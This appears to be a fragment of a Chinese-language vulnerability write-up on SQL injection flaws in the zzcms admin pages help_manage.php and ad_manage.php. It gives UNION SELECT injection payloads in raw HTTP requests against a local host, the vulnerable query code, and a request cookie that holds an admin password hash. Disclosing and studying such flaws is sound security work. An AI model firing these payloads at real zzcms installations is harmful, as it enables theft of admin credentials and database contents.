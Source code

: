 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/OMTnCvx3T1KXhnqibBY5ZTmZr6uOnaAibFJNTSejB8Nicbv8CnQYxVlJJw3ibS1SpuKOICDfSDaEXvAMu3Tnia3mlnw/640?wx_fmt=png&from=appmsg "")  
这个 checkid($b,1)  
 是高版本加上去了，看了下网上的低版本，未对   
做限制（低版本  
b也存在SQL注入）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OMTnCvx3T1KXhnqibBY5ZTmZr6uOnaAibFNrLeAoPT1qZ2fhH75mB6TiacchlOgUwIfmhZ3bIcY3ZOz4g6sbHCL0Q/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OMTnCvx3T1KXhnqibBY5ZTmZr6uOnaAibFZLlfjcia9NUnr2MRickshJ1EuIoLicjHZTGSlfXuTQyias5FpU8hSibfKCA/640?wx_fmt=png&from=appmsg "")  
  
**攻击载荷**  
：  
```
GET /zzcms/admin/help_manage.php?b=1&keyword=1'%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,NULL,user()%23 HTTP/1.1

```  
```
GET /zzcms/admin/help_manage.php?b=1&keyword=1'+UNION+ALL+SELECT+NULL,NULL,NULL,NULL,NULL,NULL,user()--+- HTTP/1.1
Host: 127.0.0.1:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Connection: keep-alive

```  
  
**危害**  
：可提取管理员账号、数据库结构等敏感信息  
#### 2. 后台SQL注入（高危）  
  
**位置**  
：/admin/ad_manage.php  
 第56行**参数**  
：b  
（三重时间盲注）**技术细节**  
：  
```
// 漏洞代码片段
$b = $_POST['b'];
$sql = "SELECT * FROM ads WHERE id=$b LIMIT 1";

```  
  
代码位置：/admin/ad_manage.php 56行，$b 参数存在SQL注入  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OMTnCvx3T1KXhnqibBY5ZTmZr6uOnaAibFHY7s2B8etbzkibMH7z4QuS4T6BpCpHtKo3ARNUUpp6dDPFMNmbcyQ4Q/640?wx_fmt=png&from=appmsg "")  
往上追溯   
参数出处，这里  
b 无限制  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OMTnCvx3T1KXhnqibBY5ZTmZr6uOnaAibFH9LKXhTcjlrpKotYFDNzzhvia5LA6YvfSFt0cvVQ0hXUny8AicoHhOlA/640?wx_fmt=png&from=appmsg "")  
```
POST /zzcms/admin/ad_manage.php HTTP/1.1
Host: 127.0.0.1:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Cookie: BJYADMIN=um94irfvsah6bu5ak430sd52e3; tablename=zzcms_tagzs; __51cke__=; __51uvsct__undefined=1; __51vcke__undefined=2eceb1e3-f9f3-5730-bbc8-eb6463ad77c2; __51vuft__undefined=1745240446725; __tins__713776=%7B%22sid%22%3A%201745240445656%2C%20%22vd%22%3A%203%2C%20%22expires%22%3A%201745243111066%7D; __51laig__=5; __vtins__undefined=%7B%22sid%22%3A%20%224197ba29-fb41-5c53-be71-5096ea54da82%22%2C%20%22vd%22%3A%203%2C%20%22stt%22%3A%20865661%2C%20%22dr%22%3A%20852234%2C%20%22expires%22%3A%201745243112384%2C%20%22ct%22%3A%201745241312384%7D; admin=admin; pass=e10adc3949ba59abbe56e057f20f883e
```